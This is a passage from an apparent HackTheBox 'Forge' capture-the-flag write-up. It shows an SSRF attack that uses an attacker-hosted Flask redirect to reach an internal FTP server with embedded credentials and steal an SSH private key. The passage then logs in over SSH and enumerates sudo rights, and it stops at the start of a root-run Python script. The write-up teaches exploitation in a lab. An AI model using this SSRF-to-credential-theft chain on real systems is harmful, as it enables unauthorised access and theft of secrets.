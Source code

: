 
I’ll grab the `id_rsa`.

### SSRF / Redirection Summary

To summarize this attack:

[![](https://0xdfimages.gitlab.io/img/Forge-redirect.png)_Click for full size
image_](https://0xdfimages.gitlab.io/img/Forge-redirect.png)

  1. I submit `http://10.10.14.6/3?f=.ssh/` as the URL to `/upload` on `forge.htb`.
  2. The filter checks, and approves the URL.
  3. `forge.htb` requests `/3?.f=.ssh/` from Flask.
  4. Flask Returns a 302 redirect to `http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1/.ssh/`. This will send `forge.htb` to `/upload` on `admin.forge.htb`, which can handle FTP, with get parameters to connect to the local FTP server,
  5. `admin.forge.htb` requests a listing of the `/.ssh/` directory from FTP.
  6. FTP returns the result, through `admin.forge.htb` which returns them to `forge.htb`.
  7. `forge.htb` saves the results in the `/uploads` directory with a random name.
  8. The URL to that saved file is returned to me.

### SSH

The key works to get a shell as user over SSH:

    
    
    oxdf@parrot$ ssh -i ~/keys/forge-user user@forge.htb      
    Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)                   ...[snip]...
    user@forge:~$
    

## Shell as root

### Enumeration

`sudo -l` gives a clear focus for root:

    
    
    user@forge:~$ sudo -l
    Matching Defaults entries for user on forge:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User user may run the following commands on forge:
        (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py
    

user can run this Python script as root without a password.

The script is some kind of remote management enabler:

    
    
    #!/usr/bin/env python3
    import socket
    import random
    import subprocess
    import pdb
    